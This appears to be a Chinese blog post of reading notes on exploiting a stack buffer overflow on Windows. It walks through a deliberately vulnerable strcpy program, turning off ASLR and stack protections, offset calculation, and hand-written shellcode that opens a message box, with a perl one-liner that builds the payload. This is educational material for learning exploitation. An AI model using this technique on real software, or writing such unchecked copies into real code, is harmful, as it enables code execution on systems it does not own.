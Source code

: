 ```yaml
---
layout: post
title: "Stack buffer overflow"
subtitle: "在栈缓冲区溢出的边缘跃跃欲试"
date: 2018-12-01 22:59
tags: 
    - Assembly
    - Win32
---
```


# Content

缓冲区指的是一块连续的内存，通常情况下就是一个数组。对于 C/C++ 编译器来说不存在“缓冲区”这个概念，因为它只能看见一个指针；因此在访问数组的时候不会有C/C++的内建手段来防止越界。这就导致了容易被攻击者利用的 _缓冲区溢出_ 风险，而且攻击者往往通过精心构造的输入(malformed inputs, aka shellcode)来达到改变程序执行流程的目的。此外，如果缓冲区布置在 **（调用）栈** 上，越过缓冲区的数据可能会 **覆盖返回地址**，来自攻击者恶意代码可能得到执行；但是，令这种攻击可行的原因，归根结底是把程序也视为数据的冯诺依曼计算机架构。

x86 的[栈向下生长](https://stackoverflow.com/a/664779/8706476)（从高地址到低地址），函数的返回地址高于缓冲区起始地址，因此超过缓冲区长度的数据有可能覆盖返回地址。然而栈的生长方向和是否存在缓冲区溢出风险无关。即使栈向上生长（ARM程序在编译时可以指定栈的生长方向），攻击者仍然可以覆盖[子函数调用的返回地址](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stacks_that_grow_up)。

## Overview

本文是 [《0day安全（第2版）》](https://book.douban.com/subject/6524076/) 一书第2、3章的读书笔记。

OS|IDE|Configuration|Goal
-|-|-|-
Windows 10 x64|VS2017|Debug|注入并且执行能够弹出对话框的代码。



### Victim

```cpp
// stack-buffer-overflow.cpp
// stack-buffer-overflow.exe
#include <cstdio>
#include <cstring>
#include <Windows.h>

int main(int argc, char* argv[], char* envp[]) {
    LoadLibrary(TEXT("user32.dll"));

    char input[1024];
    scanf("%s", input);

    foo(input);

    return 0;
}

void foo(const char* str) {
    char buffer[48];
    strcpy(buffer, str);
}
```

- `foo` 函数只接受一个指针作为参数，调用字符串复制函数的同时并没有检查长度。它的作用仅仅是提供一个缓冲区溢出的漏洞；
- `LoadLibrary(TEXT("user32.dll"))` 是为了能在恶意代码中调用 `MessageBoxA`

## The first attempt

### Prerequisite

从第一篇研究缓冲区溢出的文章 _Smashing The Stack For Fun and Profit_(1996) 到现在已经过去20+年，在此期间编译器发展出许多应对缓冲区溢出的措施。因此在编译上面的代码之前需要做一些额外的配置工作：

- 关闭 ASLR([Address space layout randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization))，让目标程序的映像装载到固定基址`0x400000`：
    - "Linker" > "Advanced" > "[Randomized Base Address](https://stackoverflow.com/a/9561294/8706476)" : `/DYNAMICBASE:NO` 
    - [ASLR](https://docs.microsoft.com/en-us/cpp/build/reference/dynamicbase-use-address-space-layout-randomization?view=vs-2017) 引入自 Windows Vista
- 关闭运行时栈帧错误检查。它会在函数返回之前引入 `__RTC_CheckEsp`
    - "C/C++" > "Code Generation" > "Basic Runtime Checks" : `/RTCu` 或空白。
- 关闭安全检查 `/GS`。它会引入 `__security_check_cookie `。
    - "C/C++" > "Code Generation" > "Security Check" : `/GS-`。
- 为方便起见用文件代替输入：
    - Debugging 标签页 "Command Arguments": `< "$(ProjectDir)\shellcode.in"`

### Layout

考虑采用如下布局 shellcode ：

![Layout of shellcode]({{ "img/stack-buffer-overflow-layout.png" | absolute_url }})

### Steps

我们的目标是让受害者在接受shellcode作为输入以后弹出一个窗口。为此，结合上述布局，我们需要：

- 获取 Windows API `MessageBoxA` 和 `ExitProcess` 的地址；
- 确定第一条指令的地址。这个地址将被用来覆盖 RA，通常位于缓冲区内；
- 确定 RA 到缓冲区的偏移。这个偏移会影响 shellcode 的长度；
- 设计指令并获取机器码。

工欲善其事必先利其器。一些调试器，比如 [x64dbg](https://github.com/x64dbg/x64dbg)，在调试过程中可以浏览模块导出/导入符号，藉此我们可以快速定位函数地址。调试目标程序可以发现，`MessageBoxA` 位于 `0x745E7E60`(user32)，`ExitProcess` 位于 `0x74F43A10`(kernel32)。而目标程序 `void foo(const char*)` 的实现如下：

![Assembly]({{ "img/stack-buffer-overflow-foo.png" | absolute_url }})

顺便说一下，上边的 call 指令的参数 `0day-console-app.4110AA` 其实指向另一条 `jmp` 指令，这条指令将跳转到 `strcpy`。

当前 `ebp` 为 `0x0019FA2C`，缓冲区 `buffer` 起始于 `ebp-0x30`，缓冲区的地址就是 `0x0019FA2C` - `0x30` = `0x0019F9FC`。因为当前 RA 位于 `ebp+4`，shellcode 的长度应大于 0x34(52)。

接下来的工作就是构造 shellcode 了。个人强烈推荐使用 MinGW 的 bash。MinGW Bash 为 Windows 用户提供了一些 *nix 的强大命令(`cat`, `ls`, `grep` 等等)，而且这个东西在安装 git 的时候就自带了。编写下面的可执行代码并保存为文本文件 code.s

```asm
;code.s
BITS 32             ;The BITS 32 directive tells nasm to generate code designed to run on a processor in 32-bit mode
xor ebx, ebx        ;Avoid explicit zeros
mov bl, 0x80
sub esp, ebx        ;Lift stack pointer
xor ebx, ebx        ;Produce zeros
push ebx            ;Null character
push 0x4C494146     ;ASCII "FAIL" in little-endian
mov eax, esp        ;Load address of string "FAIL"
push ebx            ;Push 0
push eax            ;Push the address of string "FAIL"
push eax            ;Push the address of string "FAIL"
push ebx            ;Push 0
mov eax, 0x745E7E60 ;Push the address of MessageBoxA
call eax            ;Call MessageBoxA(0, eax, eax, 0)
;Arguments such as zeros are cleaned by the caller of MessageBoxA(stdcall)
push ebx            ;Push 0                
mov eax, 0x74F43A10 ;Push the address of ExitProcess  
call eax            ;Call ExitProcess(0)
nop
nop
nop
```

由于Visual Studio 的编译器 [cl.exe 不接受助记符文本作为输入](https://stackoverflow.com/a/41018146)，所以在这里用 `nasm` 进行汇编。注意在 x86_64 机器上，缺少 `BITS 32` 制导语句将会编译出[带前缀的指令](https://nasm.us/doc/nasmdoc6.html)。

```sh
nasm code.s -o code.o
```

然后统计一下 shellcode 的长度：

```sh
$ cat code.out | wc -c
38
```

可惜的是这里的 MinGW 没有 `objdump`/`dumpbin`，不过可以用 powershell 的  `format-hex` 查看二进制形式：

```powershell
> format-hex .\code.out

           00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000   31 DB B3 80 29 DC 31 DB 53 68 46 41 49 4C 89 E0  1Û³)Ü1ÛShFAILà
00000010   53 50 50 53 B8 60 7E 5E 74 FF D0 53 B8 10 3A F4  SPPS¸`~^t.ÐS¸.:ô
00000020   74 FF D0 90 90 90 7E 5E 74 FF D0 53 B8 10 3A F4  t.Ð~^t.ÐS¸.:ô
```

最后拼接代码、填充字节和地址 `0x0019F9FC` 成为 shellcode 并写入文件(MinGW):

```sh
echo -n $(cat code.out)$(perl -e 'print "\x90"x(52-38) . "\xfc\xf9\x19\x00"') > shellcode.in
```

回到 Visual Studio，Ctrl+F5 运行 stack-buffer-overflow.exe 即可观察到弹窗，这表示 shellcode 得到执行。


### Issues

值得注意的是：

<!-- 无论程序运行多少次，ntdll 总是被装载到进程中的同一个基址，而且它的装载基址总是最高； -->

- shellcode 位于栈上， 其指令执行顺序和栈的生长方向正好相反。为了防止 shellcode 被覆盖，要事先将栈顶“抬高”到 shellcode 之前；
- shellcode 要避免出现能截断输入的字符：
    - `strcpy` 函数在空字符 `\x00` 处截断参数字符串；
    - `scanf` 函数会在一些空白字符处截断输入。[空白字符](http://www.cplusplus.com/reference/cstdio/scanf/#parameters)包括`' '`(`0x20`), `\t`(`0x09`), `\n`(`0x0A`), `\v`(`0x0B`), `\f`(`0x0C`) 和 `'\r'`(`0x0D`)；
    - 可以用 `format-hex shellcode.in | sls 00` 检查空字符。

这个例子存在不足之处，比如：

- 无法应对启用 ASLR 的目标程序；
- 需要手工查询所需要的 API 的地址；
